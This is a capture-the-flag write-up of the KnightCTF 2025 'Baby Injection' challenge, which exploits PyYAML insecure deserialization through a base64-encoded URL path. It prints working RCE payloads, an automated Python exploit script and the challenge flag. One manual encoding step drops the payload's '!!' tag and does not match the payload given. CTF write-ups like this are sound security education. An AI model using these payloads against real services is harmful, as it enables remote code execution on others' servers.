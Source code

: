 # Baby Injection

<!--more-->
### Challenge Description

![Challenge Presentation](/images/KnightCTF-2025/Baby-Injection/challenge_presentation.png "Challenge Presentation")

### Initial Analysis

The site appears as follows:

![Site Presentation](/images/KnightCTF-2025/Baby-Injection/site_presentation.png "Site Presentation")

The first thing that immediately stands out is the site's URL:

```
http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=
```


In fact, that looks like a base64 encoding. Let's try to decode it:

```bash
 echo "eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=" | base64 -d
```

Decoding it, I got the following:

```yml
yaml: Its yaml bro, hack me if you can!!!
```

So, the decoded base64 seems to be reflected on the page, as we can see from the previous screenshot. It seems that since it mentions YAML, this could be a case of YAML insecure deserialization. In fact, looking at the request header, we can tell that everything is being executed with Python. Since Python has a library called PyYAML, we can exploit the deserialization process to achieve Remote Code Execution (RCE). 

### Exploit
I personally used this payload:

```yml
yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]
```

But many other payloads could have been used, such as:

```yml
yaml: !!python/object/apply:subprocess.getoutput ["ls -al"]
```
Other payloads can be found on [PayloadsAllTheThings](). So, I simply encoded it in base64:

```bash
echo "yaml: python/object/apply:subprocess.getoutput ['ls -al']" | base64
```

And that's how I formed the URL for injecting the "ls -al" command:

```
http://172.105.121.246:5990/eWFtbDogcHl0aG9uL29iamVjdC9hcHBseTpzdWJwcm9jZXNzLmdldG91dHB1dCBbJ2xzIC1hbCdd
```

By opening the URL, the command was executed on the server, listing the directories, and in doing so, I found the flag:

![Manual Flag](/images/KnightCTF-2025/Baby-Injection/manual_flag.png "Manual Flag")

### Automated Exploit

I also created an automated Python exploit for extracting the flag:

```python
import requests
import base64
import re

url = "http://172.105.121.246:5990/"
payload = '''yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]'''
print("\nFLAG: " + re.search(r'KCTF{[a-f0-9]+}', requests.get(url + base64.b64encode(payload.encode('utf-8')).decode('utf-8')).text).group(0))
```

### Flag
{{< admonition danger "Flag" >}}
KCTF{d38787fb0741bd0efdad8ed01f037740}
{{< /admonition >}}
